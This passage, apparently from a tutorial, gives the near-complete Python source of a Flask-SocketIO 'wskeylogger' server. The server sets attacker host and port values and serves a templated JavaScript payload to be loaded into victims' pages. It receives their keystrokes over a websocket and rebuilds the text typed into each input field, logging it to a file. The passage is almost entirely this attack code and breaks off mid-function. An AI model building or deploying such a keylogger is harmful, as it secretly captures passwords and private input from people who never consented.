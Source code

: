 The completed run.py file should look like this:

{% highlight python %}

import logging
import tables

from flask import Flask, make_response, render_template, request
from flask.ext.socketio import SocketIO, emit

LHOST = '192.168.1.169'
LPORT = 80

logging.basicConfig(filename='wskeylogger.log', level=logging.INFO)

app = Flask(__name__)
#CORS(app)
app.config['SECRET_KEY'] = 'secret'
socketio = SocketIO(app)

input_tags = {}

@app.route('/')
def index():

    jsfile = render_template('wsk.js', lhost=LHOST, lport=LPORT)
    response = make_response(jsfile)
    response.headers['Content-Type'] = 'application/javascript'
    return response

@socketio.on('connect', namespace='/keylogger')
def test_connect():

    emit('confirm connection', { 'data' : 'Connected' })
    
@socketio.on('disconnect', namespace='/keylogger')
def test_disconnect():
    print 'Client disconnected'


@socketio.on('keydown', namespace='/keylogger')
def keydown(message):

    keystroke = message['ks']
    ctrl_pressed = message['ctrl']
    alt_pressed = message['alt']
    shift_pressed = message['shift']
    selection_start = message['start_pos']
    selection_end = message['end_pos']
    name = message['name']

    if name not in input_tags:
        input_tags[name] = []
    contents = input_tags[name]

    if ctrl_pressed or alt_pressed or not tables.is_printable(keystroke):
        return

    keystroke = tables.keyboard[keystroke]

    if keystroke == 'BACK_SPACE':

        if selection_start == selection_end and selection_start != 0:
            contents.pop(selection_start-1)
        else:
            del contents[selection_start:selection_end]

    elif keystroke == 'DELETE':

        if selection_start == selection_end and selection_end != len(contents):
            contents.pop(selection_start)
        else:
            del contents[selection_start:selection_end]
